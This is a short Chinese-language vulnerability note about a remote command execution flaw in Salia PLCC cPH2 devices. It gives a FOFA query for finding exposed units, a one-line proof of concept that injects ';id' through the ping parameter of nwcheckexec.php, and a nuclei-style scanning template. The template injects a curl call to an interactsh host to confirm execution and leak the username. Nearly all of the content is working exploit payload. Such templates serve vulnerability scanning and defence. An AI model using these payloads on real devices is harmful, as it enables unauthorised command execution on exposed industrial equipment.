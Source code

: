 # Salia PLCC cPH2 远程命令执行漏洞

## fofa
```
"Salia PLCC"
```

## poc
```
/nwcheckexec.php?type=ping&dest=8.8.8.8;id
```

http:
  - method: GET
    path:
      - "{{BaseURL}}/nwcheckexec.php?ip={{url_encode('127.0.0.1 && curl http://$(whoami).{{interactsh-url}}')}}"

    matchers-condition: and
    matchers:
      - type: word
        words:
          - "<b>SUCCESS</b>"
          - "127.0.0.1 && curl http://$(whoami).{{interactsh-url}}"
        condition: and

      - type: status
        status:
          - 200

      - type: word
        part: interactsh_protocol
        words:
          - "dns"
# digest: 4a0a00473045022068ef983fa81262636ea41ef1e73a41004e64f96e9a0bf31555de76a92984a911022100851ff91914ba0856c3e59c01d679b4f5076ed7f404cb50efe363eb43f19ec7b3:922c64590222798bb761d5b6d8e72950
```
